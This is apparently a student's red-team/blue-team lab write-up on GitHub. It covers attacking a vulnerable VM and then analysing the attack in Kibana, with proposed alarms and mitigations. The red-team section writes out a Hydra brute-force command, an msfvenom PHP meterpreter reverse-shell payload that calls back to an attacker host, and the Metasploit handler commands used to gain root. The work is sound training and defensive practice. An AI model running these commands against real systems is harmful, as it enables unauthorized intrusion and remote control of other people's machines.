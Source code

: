 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

![1a](https://user-images.githubusercontent.com/92223941/167281275-93a49077-e4fd-49b8-abb8-5996739eb5d8.PNG)

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

![image](https://user-images.githubusercontent.com/92223941/167281224-191e434b-d94f-4a4b-a6fd-3515a2e9c02d.png)

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

![image](https://user-images.githubusercontent.com/92223941/167281335-956344b0-fdd2-4bee-af89-ebb9f989ae2c.png)

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

![Hydra password](https://user-images.githubusercontent.com/92223941/167281384-6f05f062-0e78-4dce-ad56-1fad9ec91fe1.PNG)

-	I then logged into the secret folder and found a personal note in it.

![image](https://user-images.githubusercontent.com/92223941/167281416-4ab1c2f6-beef-43a8-808b-4bbf5874493d.png)

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.

![ryan password](https://user-images.githubusercontent.com/92223941/167281434-8f81988d-a4f1-4695-b83e-bb06cc285285.PNG)

-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

![msfvenom](https://user-images.githubusercontent.com/92223941/167281455-8e01b643-d192-4939-8992-b3dca42cdc39.PNG)

-	I then uploaded the shell into the webdav directory.

![image](https://user-images.githubusercontent.com/92223941/167281502-8d68b727-b8e0-49b1-8bdf-87dc7e35cabb.png)

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

![snip 2](https://user-images.githubusercontent.com/92223941/167281556-7176de74-2fec-4aad-81e9-ae500111a626.PNG)

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command ***shell*** and went back to the root directory and then listed the directories and found the flag.

![6](https://user-images.githubusercontent.com/92223941/167281652-3aa24019-0640-4643-a46b-da75072434c6.PNG)
![7](https://user-images.githubusercontent.com/92223941/167281666-b48aaa30-140d-463c-8287-3653eb305899.PNG)



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

![Port Scan](https://user-images.githubusercontent.com/92223941/167281697-d81d864f-0edc-4bc9-a8a3-e780750f5eba.PNG)

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

![http request](https://user-images.githubusercontent.com/92223941/167281725-b7ed6d0c-a722-4e69-b8e9-336be079fc9a.PNG)

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

![brute force attack blue team](https://user-images.githubusercontent.com/92223941/167281750-4c8eb6bf-d727-4fc0-a298-ea743b98926a.PNG)

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested

![webdav](https://user-images.githubusercontent.com/92223941/167281770-7b3f00c8-18da-4851-9339-833991e72a6b.PNG)

## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
